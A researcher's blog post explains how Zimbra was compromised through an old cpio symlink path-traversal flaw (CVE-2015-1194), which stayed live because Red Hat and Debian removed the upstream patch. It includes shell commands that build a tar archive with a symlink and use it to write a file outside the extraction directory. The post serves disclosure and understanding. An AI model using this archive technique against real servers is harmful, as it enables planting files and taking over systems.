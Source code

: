```yaml
---
title: 'Blast from the Past: How Attackers Compromised Zimbra With a Patched Vulnerability'
author: 'ron'
categories:
    - hacking
layout: post

date: '2023-01-12'
permalink: '/2023/hacking'
comments_id: ''
---
```


Last year, I worked on a vulnerability in Zimbra
([CVE-2022-41352](https://nvd.nist.gov/vuln/detail/CVE-2022-41352) - [my
AttackerKB analysis](https://attackerkb.com/topics/1DDTvUNFzH/cve-2022-41352/rapid7-analysis))
that turned out to be a new(-ish) exploit path for a really old bug in `cpio` -
CVE-2015-1194. But that was patched in 2019, so what happened?

(I posted this as a tweet-thread awhile back, but I decided to flesh it out and
make it into a full blog post!)

<!--more-->

`cpio` is an archive tool commonly used for system-level stuff (firmware images
and such). It can also extract other format, like `.tar`, which we'll use since
it's more familiar.

`cpio` has a flag (`--no-absolute-filenames`), off by default,
that purports to prevent writing files outside of the target directory. That's
handy when, for example, extracting untrusted files with [Amavis](https://gitlab.com/amavis/amavis)
(like Zimbra does).

The problem is, symbolic links can point to absolute paths, and therefore, even
with `--no-absolute-filenames`, there was no safe way to extract an untrusted
archive (outside of using a `chroot` environment or something similar, which
they really ought to do).

Much later, in 2019, the `cpio` team released `cpio` version 2.13, which
[includes a patch for
CVE-2015-1194](https://git.savannah.gnu.org/cgit/cpio.git/commit/?id=45b0ee2b),
with unit tests and everything.

Some (not all) modern OSes include the patched version of cpio, which should be
the end of the story, but it's not!

I'm currently writing this on Fedora 35, so let's try exploiting it. We can
confirm that the version of `cpio` installed with the OS is, indeed, the fixed
version:

```sh
ron@fedora ~ $ cpio --version
cpio (GNU cpio) 2.13
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Written by Phil Nelson, David MacKenzie, John Oleynick,
and Sergey Poznyakoff.
```

That means that we shouldn't be able to use symlinks to write outside of the
target directory, so let's create a `.tar` file that includes a symlink and a
file written through that symlink (this is largely copied from
[this mailing list post](https://lists.gnu.org/archive/html/bug-cpio/2015-01/msg00000.html):

```sh
ron@fedora ~ $ mkdir cpiotest
ron@fedora ~ $ cd cpiotest
ron@fedora ~/cpiotest $ ln -s /tmp/ ./demo
ron@fedora ~/cpiotest $ echo 'hello' > demo/imafile
ron@fedora ~/cpiotest $ tar -cvf demo.tar demo demo/imafile
demo
demo/imafile
ron@fedora ~/cpiotest $ rm -f demo /tmp/imafile
```
So now we have a `.tar` with a symlink that goes outside the directory:

```sh
ron@fedora ~/cpiotest $ tar -tvf ./demo.tar 
lrwxrwxrwx ron/ron           0 2023-01-13 15:03 demo -> /tmp/
-rw-r--r-- ron/ron           6 2023-01-13 15:03 demo/imafile
```

In theory, we shouldn't be able to extract that. Certainly, we can't with the
standard `tar` executable:

```sh
ron@fedora ~/cpiotest $ tar -xvf ./demo.tar
demo
demo/imafile
tar: demo/imafile: Cannot open: Not a directory
tar: Exiting with failure status due to previous errors
```

And we *shouldn't* be able to with `cpio`, since it's patched.... right?

```sh
ron@fedora ~/cpiotest $ cpio -i -d --no-absolute-filenames --verbose < ./demo.tar
demo
demo/imafile
4 blocks
ron@fedora ~/cpiotest $ ls
demo@  demo.tar
ron@fedora ~/cpiotest $ ls -l /tmp/imafile
-rw-r--r--. 1 ron ron 6 Jan 13 15:09 /tmp/imafile
```

Wait, what's happening? This messed me up for awhile! By all accounts, the
current version of `cpio` on a nearly-current version of Fedora shouldn't be
vulnerable, but it is!

I did some spelunking into the source RPMs and DEBs, and found that both
Red Hat and Debian (and all derived OSes) specifically *remove* the patch, citing
[this forum post](https://lists.gnu.org/archive/html/bug-cpio/2019-11/msg00016.html)
where somebody ran into a bug with initrd!

The mailing list post, from 2019, says they'll look into how to fix this, but as
far as I can tell, nobody ever did. I imagine that removing
`--no-absolute-filenames` would fix it, but I don't think anybody actually
looked into this.

Years later, we come to find out that Zimbra uses Amavis, which uses `cpio` by
default (if pax isn't installed). We found it out because somebody got
exploited, and was kind enough to
[post details about the compromise](https://forums.zimbra.org/viewtopic.php?t=71153&p=306532).
Since I had seen and [written about](https://attackerkb.com/topics/RCa4EIZdbZ/cve-2022-30333/rapid7-analysis)
a very similar vulnerability recently, I recognized what was going on in the
forum post. The biggest hurdle was the confusion about why modern systems are
impacted!

Zimbra did roll out a fix eventually - specifically, Zimbra now requires the
`pax` executable, which is not vulnerable. We 
[wrote a blog about this](https://www.rapid7.com/blog/post/2022/10/06/exploitation-of-unpatched-zero-day-remote-code-execution-vulnerability-in-zimbra-collaboration-suite-cve-2022-41352/) back in October when it was new.

One more fun fact.. Ubuntu 18.04 (and as far as I can tell, ONLY Ubuntu 18.04)
backported the patch to cpio 2.12, which really confused my research! I just
happened to be testing Zimbra on Ubuntu 18.04, which includes `cpio` version
2.12, which *should* be vulnerable, but it wasn't!

It took me awhile to unravel all the weirdness, and I'm happy to report that
it's all sorted out now.

